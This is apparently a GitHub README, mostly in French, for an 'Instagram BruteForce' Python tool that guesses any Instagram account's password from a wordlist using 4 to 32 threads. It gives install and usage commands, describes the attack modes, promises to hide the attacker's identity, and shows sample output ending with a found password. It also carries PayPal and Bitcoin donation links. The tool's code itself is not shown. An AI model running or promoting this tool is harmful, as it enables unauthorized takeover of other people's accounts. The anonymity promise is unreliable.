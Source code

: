 # Instagram BruteForce

[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/AlexxModder)

Ce programme va forcer brutalement n’importe quel compte Instagram que vous l’envoyez à sa façon.
Il suffit de lui donner une cible, une liste de mots de passe et un mode, puis appuyez sur entrez et oubliez-le.
Pas besoin de s’inquiéter de l’anonymat lors de l’utilisation de ce programme, sa plus haute priorité est votre anonymat, 
il n’attaque que lorsque votre identité est cachée.


### Avis
Je ne maintiendrais plus ce projet.

### Soutenez-moi
> Portefeuille Bitcoin: 3JdbcHdKEV2xTmxoiwTd9xYxfQ7jBnGuB3 >> PayPal: https://www.paypal.me/AlexxModder

### Exigences
- Python v3.x.x
- ~~Kali Linux 2.0~~
- ~~Tor~~
### Installer des dépendances

```
pip3 install -r requirements.txt
```

### Aide
```
usage: instagram.py [-h] [-m MODE] username wordlist

optional arguments:
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```
### Utilisation

```
python3 instagram.py <nom> <wordlist> -m <mode>
```
### Bots (Threads)
- 4 bots: 64 mots de passe à la fois
- 8 bots: 128 mots de passe à la fois
- 16 bots: 256 mots de passe à la fois
- 32 bots: 512 mots de passe à la fois

### Modes
- 0: 32 bots
- 1: 16 bots
- 2: 8 bots
- 3: 4 bots
Mode chill
Ce mode n’utilise que 4 bots, soit 64 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 3
```
### Mode modéré 1

Ce mode utilise 8 bots, soit 128 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 2
```

### Mode modéré 2

Ce mode utilise 16 bots, soit 256 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 1
```

### Mode sauvage

Ce mode utilise 32 bots, soit 512 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 0
```

### Si vous ne spécifiez pas un mode, alors le mode est défini à 2

### ENGLISH                     

### Run                          
                                 
```                                                            
[-] Wordlist: password.lst       
[-] Username: AlexxLy            
[-] Password: 272                
[-] Complete: 34.80%             
[-] Attempts: 212                
[-] Browsers: 240                
[-] Exists: True                 
```                              
                                 
### Stop                         
                                 
```                                                            
[-] Wordlist: password.lst       
[-] Username: AlexxLy            
[-] Password: Alexx1212          
[-] Complete: 86.69%             
[-] Attempts: 345                
[-] Browsers: 192                
[-] Exists: True                 
                                 
[!] Password Found               
[+] Username: AlexxLy            
[+] Password: Alexx1212          
```
### FRANCAIS

### Courrir

```                              
[-] Liste de Mots de passe: password.lst
[-] Nom d'utilisateur: AlexxLy
[-] Mots de passe: 272
[-] Completer: 34.80%
[-] Essayer: 212
[-] Browsers: 240
[-] Existe: OUI
```                              
                              
### Arrete
```                              
[-] Liste de Mots de passe: password.lst
[-] Nom d'utilisateur: AlexxLy
[-] Mots de passe: Alexx1212
[-] Completer: 86.69%
[-] Essayer: 345
[-] Browsers: 192
[-] Existe: OUI

[!] Mots de passe Trouver
[+] Nom d'utilisateur: AlexxLy
[+] Mots de passe: Alexx1212
